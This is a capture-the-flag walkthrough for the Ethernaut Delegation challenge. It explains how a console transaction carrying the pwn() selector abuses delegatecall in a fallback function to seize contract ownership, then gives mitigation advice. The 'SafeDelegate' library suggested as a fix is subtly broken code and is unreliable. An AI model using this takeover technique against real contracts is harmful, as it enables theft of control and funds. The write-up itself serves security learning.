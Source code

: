 # Ethernaut Delegation Challenge - Complete Solution

## Challenge Overview
**Contract Name**: Delegation  
**Difficulty**: Easy/Medium  
**Objective**: Claim ownership by exploiting the `delegatecall` functionality in the fallback function

## Vulnerability Analysis

### Key Contracts
```javascript
// Vulnerable contract
contract Delegation {
    address public owner;
    Delegate delegate;
    
    fallback() external {
        (bool result,) = address(delegate).delegatecall(msg.data);
        if (result) {
            this;
        }
    }
}

// Delegate contract
contract Delegate {
    address public owner;
    
    function pwn() public {
        owner = msg.sender;
    }
}
```

### Critical Vulnerability
The `delegatecall` in Delegation's fallback function allows execution of any function from the Delegate contract while maintaining Delegation's storage context.

## Solution Implementation

### Correct Attack Method
```javascript
// In browser console
await contract.sendTransaction({ 
    data: web3.utils.keccak256("pwn()").slice(0, 10) 
});
```

### Step-by-Step Explanation

1. **Calculate Function Signature**:
   ```javascript
   // Gets first 4 bytes of keccak256 hash of "pwn()"
   const signature = web3.utils.keccak256("pwn()").slice(0, 10);
   // Returns "0xdd365b8b"
   ```

2. **Trigger Fallback Function**:
   - Sending transaction with the signature as `data`:
     - Delegation has no `pwn()` function → triggers fallback
     - Fallback forwards call to Delegate via `delegatecall`

3. **Execution Context**:
   - `delegatecall` runs Delegate's `pwn()` in Delegation's context
   - `msg.sender` remains your address
   - Modifies Delegation's storage (not Delegate's)

4. **Storage Change**:
   - Updates `owner` at storage slot 0
   - Now points to your address

## Verification
```javascript
// Check new owner
(await contract.owner()) === (await web3.eth.getAccounts())[0];
// Should return true
```

## Security Analysis

### Why This Works
1. **Storage Layout Matching**:
   - Both contracts have `owner` at slot 0
   - `delegatecall` preserves storage layout

2. **Context Preservation**:
   - Maintains original `msg.sender`
   - Executes in caller's storage context

3. **Fallback Mechanics**:
   - Any unrecognized selector triggers fallback
   - Forwards full `msg.data`

## Prevention Recommendations

### Secure Alternatives
1. **Avoid Dangerous `delegatecall`**:
   ```javascript
   // Bad - allows arbitrary calls
   fallback() external {
       address(delegate).delegatecall(msg.data);
   }
   ```

2. **Function Whitelisting**:
   ```javascript
   fallback() external {
       bytes4 funcId = bytes4(msg.data);
       require(funcId == WHITELISTED_SIG, "Unauthorized");
       address(delegate).delegatecall(msg.data);
   }
   ```

3. **Use Proper Library Pattern**:
   ```javascript
   library SafeDelegate {
       function safeTransferOwnership(address newOwner) external {
           require(msg.sender == address(this));
           owner = newOwner;
       }
   }
   ```

## Key Takeaways

1. **`delegatecall` is Dangerous**:
   - Preserves context and storage
   - Can lead to unintended storage modifications

2. **Fallback Functions Require Care**:
   - Should validate incoming data
   - Never blindly forward arbitrary calls

3. **Storage Layout is Critical**:
   - Must match between contracts
   - Mismatches can cause catastrophic errors

This solution demonstrates how a simple `delegatecall` vulnerability can lead to complete contract takeover, and why proper access controls are essential in fallback functions.